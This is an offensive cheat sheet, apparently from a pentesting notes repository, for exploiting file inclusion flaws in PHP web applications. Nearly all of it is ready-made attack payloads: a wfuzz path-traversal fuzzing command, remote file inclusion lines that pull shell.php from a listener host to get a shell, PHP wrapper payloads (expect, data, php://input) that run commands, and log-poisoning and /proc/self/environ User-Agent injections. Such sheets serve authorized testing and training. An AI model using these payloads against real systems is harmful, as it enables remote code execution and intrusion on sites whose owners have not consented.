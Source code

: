 ### LFI

Local file inclusion fuzzing

```bash
wfuzz -c -w <lfi.txt> --hw 0 <target>?page=../../../../../../../FUZZ
```

Getting shell from RFI

```bash
<target>?page=http://<listener_ip>/shell.php
<target>?page=\\<listener_ip>\<shared_folder>\shell.php
```

**PHP wrapper**

- PHP Expect

```bash
<target>?page=expect://whoami
```

- PHP data
- 
```bash
<target>?=data:text/plain,<?php echo shell_exec("whoami") ?>
```

- PHP Input 

Using a proxy like Burp, change the request to a POST request and use the wrapper "php://input", then put your php code into the request body :

```php
POST <targeturi>/<vulnrable_paramter>=php://input
Host: <target>

<?php phpinfo(); ?>
```

**access_log**

If you find the access log, you can make a GET request with your php code :
```php
GET <targeturi>/<vulnrable_paramter>=<?php phpinfo(); ?>
Host: <target>

GET <targeturi>/<vulnrable_paramter>=/var/log/apache2/access.log
Host: <target>
```

**proc/self/environ**

Send the payload into User-Agent, and browse the /proc/self/environ file :

```bash
GET <target>?page=../../../proc/self/environ HTTP/1.1
User-Agent: <?php phpinfo(); ?>
```

---